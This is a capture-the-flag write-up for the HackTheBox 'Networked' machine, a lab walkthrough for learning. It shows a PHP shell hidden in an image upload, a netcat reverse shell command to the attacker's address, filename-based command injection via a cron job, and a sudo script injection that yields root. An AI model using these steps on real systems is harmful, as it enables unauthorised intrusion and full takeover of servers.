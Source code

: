 ```yaml
---
layout: article
title: HackTheBox - Networked
tags: HackTheBox write-up
date: 2019-01-01 08:00:00 +0100
---
```


![banner](/assets/images/networked.png)

<!--more-->

<h2>Networked</h2>
<h3>The Basics</h3>
The first thing we should do is map the box IP address to the box name  .htb in the `/etc/hosts` file.
`10.10.10.146   networked.htb`

<h3>Initial Scan</h3>
Next up we will run a standard NMAP scan. We get results back for 3 ports: 22 SSH open, 80 HTTP open and 443 HTTPS closed.

![Initial NMAP scan](/assets/images/networked-initial-scan.png)

<h3>Web enumeration</h3>
Port 80 looks interesting, if we look at the NMAP results we can see the server is running PHP. Let's start up gobuster and look for some interesting .php files.

![gobuster results](/assets/images/networked-gobuster-results.png)

We quickly find some promising files and directories, we will terminate gobuster early as I highly doubt we will find more on the machine and this is enough to get started with right now.
Let's take a look at `/upload.php` and `/photos.php`.

<h3>Bypassing the upload restriction to gain remote code execution</h3>
At first glance `/uploads.php` looks like very basic file upload functionality, we can assume it will let the user upload pictures to display on `/photos.php`.

![upload](/assets/images/networked-upload.png)

If we take a look at `/photos.php` we can see it's a basic photo gallery. Let's download one of the images and try to upload it through `/uploads.php`, we will name it `test.png`.

![photos](/assets/images/networked-photos.png)

The test image uploads successfully to the gallery.

![test upload successfull](/assets/images/networked-upload-success.png)

When we refresh the gallery we can see our image has been added and renamed to our IP address `10.10.X.X.png`

![gallery](/assets/images/networked-gallery-success.png)

Some quick googling shows us that the most common and likely way to check if an image is valid with PHP, is to look at the extention, and with the use of the **check_file_type** function. **check_file_type** looks at the mime type of the file to see if it equals `'image/'`.  
We can manually inject our reverse PHP shell into a `.png` image, but I will use a tool called [Exiftool](https://github.com/exiftool/exiftool) which can read, write and edit meta information.

![exiftool](/assets/images/networked-exiftool.png)

Let's rename our image to `test.php.png` and try upload it to the gallery.

![upload malicious image](/assets/images/networked-malicious-upload.png)

Upload successful! Let's set up a listener on port 444 with `nc -lnvp 444` and get our reverse shell by going to `networked.htb/uploads/10_10_X_X.php.png?cmd=nc -e /bin/bash 10.10.X.X 444`.

![reverse shell](/assets/images/networked-reverse-shell.png)

<h3>Getting user through command injection</h3>
Let's upgrade our shell using `python -c "import pty;pty.spawn('/bin/bash')"`. If we use `whoami` we can see we have a shell as the user `apache`.  
One of the first things we can do once we get our initial shell, is checkout the home directory. If we navigate to `/home` and `ls -la` we can see there is a home directory for the user **guly** and we have read access. Let's see what is inside.

![guly home](/assets/images/networked-home-guly.png)

We can see the `user.txt` flag, a file called `crontab.guly` and a file called `check_attack.php`. Let's take a look at the `crontab.guly` file first.

![crontab](/assets/images/networked-crontab.png)

Every 3 minutes this cronjob will execute `/home/guly/check_attack.php`. Let's take a look at `check_attack.php`.

![check attack](/assets/images/networked-check-attack.png)

If we analyze this file, we can see the `$value` variable which is called in `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &";`) is prone to command injection. This is the case because `$value` equals a filename in `$path` and `$path` equals `/var/www/html/uploads` as can be seen in the `foreach` statement.

```php
$path = '/var/www/html/uploads/';
$files = preg_grep('/^([^.])/', scandir($path)); #this expression filters out any files that start with a dot, then adds the remaining filenames as strings to the Array $files
foreach ($files as $key => $value) #for every filename in /var/www/html/uploads
```

Thus if we create a file in `/var/www/html/uploads` which has a semicolon and command in its filename, it'll be executed. Since we have write access to `/var/www/html/uploads`, we can use `touch` to create a file. `touch` only has a few characters which cannot be used in a filename, namely `\0 (NUL)` and `/`. With those limitations in mind we can craft our reverse shell command and set up a listener with `nc -lnvp 444`.

![reverse shell command](/assets/images/networked-reverse-shell-command.png)

After a couple of minutes we get our reverse shell and we can upgrade it using python. We now have a shell as **guly** and we can `cat user.txt` for the user flag.

![guly shell](/assets/images/networked-guly-shell.png)

<h3>Getting root through command injection</h3>
Time to move on from **user** and get **root**. Before we start running enumeration scripts like [LinEnum](https://github.com/rebootuser/LinEnum) and [Jalesc](https://github.com/itsKindred/jalesc) we should try `sudo -l` first to see which files **guly** is allowed to run as **root**. Luckily this proves to be all we need.

![sudo l](/assets/images/networked-sudo.png)

**Guly** is allowed to run `/usr/local/sbin/changename.sh` with `root` privileges without a password. Let's have a look at `changename.sh`.

![changename](/assets/images/networked-changename.png)

At first glance the script appears to be reading parameters and values from a file called `/etc/sysconfig/network-scripts/ifcfg-guly`, then it performs some regex filtering on user input and writes those values back to the config file.  
What makes this script vulnerable to command injection is the line `echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly`.  
We know that `$x` is our user input we control, but it only allows: lowercase a-z, uppercase A-Z, numbers 0-9, `_` (underscore), `-` (dash), `/` (forward slash), `\` (back slash).  
In bash parameters are separated by a blank space `" "`, and this is where we can inject our own command. When we run the script with `sudo /usr/local/sbin/changename.sh` and give it
input like `cerbersec bash`, the script will execute `bash` for us and give us a **root** shell.

![root shell](/assets/images/networked-root-shell.png)

We can now `cd /root` and `cat root.txt`.

![root flag](/assets/images/networked-root-flag.png)